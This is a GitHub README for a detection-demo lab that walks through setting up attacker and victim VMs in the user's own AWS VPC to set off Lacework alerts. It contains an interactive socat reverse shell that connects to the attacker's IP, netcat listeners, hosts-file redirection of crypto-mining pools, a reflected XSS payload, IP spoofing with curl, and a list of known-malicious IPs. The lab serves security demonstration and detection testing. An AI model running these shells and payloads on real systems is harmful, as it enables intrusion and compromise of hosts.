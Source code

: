 # 🧪 Welcome to the Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Compromise Host (LW Composite alert), Remote Command Execution, XSS, IP Spoofing, and simulates known bad IP behavior. **This is only for educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/10402fa0-0c8f-4911-a89b-4795f1ff6b81)


> ⚠️ **IMPORTANT:** All tests must be run within your **own VPC lab environment**. 

---

## 🛠️ Preparations

### Git Clone the Demo Simulator repo

```
git clone https://github.com/svuillaume/demo_simulator
```

### 1. Launch Two VMs with Public IP assigned
- **Attacker VM**
- **Victim VM**

### 2. Create an AWS ELB
- **Create a new Target Group and Register Attack VM**

Note: The above are intended for Lacework to detect these VM "Internet Exposure"

---

## 🧰 Attacker VM Setup

1. **Install Docker**
2. **Deploy Lacework Agent**

---

## 🎯 Victim VM Setup

1. **Install dependencies**
   ```
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```
   python3 app.py
   ```
6. **Deploy Lacework Agent**
   ***Ideally enable AVD on the agent setup***   

---

# ▶️ Running the Simulation

## On the Attacker VM (Open 2 Terminals or use screen)

1. **Create a persistent socket listener on Terminal 1 or screen 1:**

```
nc -k -l 3333 &
```

2. **Create a new socat tcp listener on tcp 5555**

```
socat file:`tty`,raw,echo=0 tcp-listen:5555
```
 
3. **Optionally run traffic simulation with k6 on Terminal 2 or screen 2:**

```
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

### On the Victim VM

1. **Intiate an interactive Reverse Shell***

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.31.30.103:5555
```
---

# 🚀 HOWTO run the Demo

**On the Attacker VM**

1. **Using the establisehd Reverse Shell Connection, Run the attack simulation script***

```
./demo_simulator/lw_attack_sim.sh
```

***Note: The script will run for 5 minutes*** 
***On the Attacker VM, you can run K6.js script to generate traffic from all over the world (this is using the x-forward-for header)***

---


# Owasp Attacks: These are for your own inspiration

### 🔓 Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

---

### 💬 Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)

**Example:**

```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

---

### 🌐 Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**

```
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## 🚨 Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## ✅ Happy Demo!

Happy testing — use responsibly in isolated environments.

---

### Socat and NetCat Clean up

***On Attacker VM***

```
lsof -i -n -P | grep nc | awk '{print $2}' | sort -u | xargs -r kill -9
```

***On Victim VM***

```
lsof -i -n -P | grep socat | awk '{print $2}' | sort -u | xargs -r kill -9
```
